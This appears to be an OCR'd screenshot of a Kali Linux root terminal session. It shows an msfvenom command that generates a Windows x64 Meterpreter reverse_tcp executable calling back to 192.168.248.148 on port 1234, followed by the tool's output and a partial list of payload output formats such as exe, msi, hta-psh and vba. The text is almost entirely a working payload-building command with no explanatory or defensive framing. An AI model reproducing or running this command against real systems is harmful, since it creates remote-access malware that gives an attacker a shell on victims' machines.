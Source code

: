 ```
┌──(root㉿kali)-[~/payloads/Windows_Payloads]
└─# msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.248.148 LPORT=1234 -f exe > payloadx64.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```

```
┌──(root㉿kali)-[~/payloads/Windows_Payloads]
└─# msfvenom --list formats                                                                                        

Framework Executable Formats [--format <value>]
===============================================

    Name
    ----
    asp
    aspx
    aspx-exe
    axis2
    dll
    elf
    elf-so
    exe
    exe-only
    exe-service
    exe-small
    hta-psh
    jar
    jsp
    loop-vbs
    macho
    msi
    msi-nouac
    osx-app
    psh
    psh-cmd
    psh-net
    psh-reflection
    python-reflection
    vba
    vba-exe
    vba-psh
    vbs
    war

Framework Transform Formats [--format <value>]
==============================================

    Name
    ----
    base32
    base64
    bash
    c
    csharp
    dw
    dword
    go
    golang
    hex
```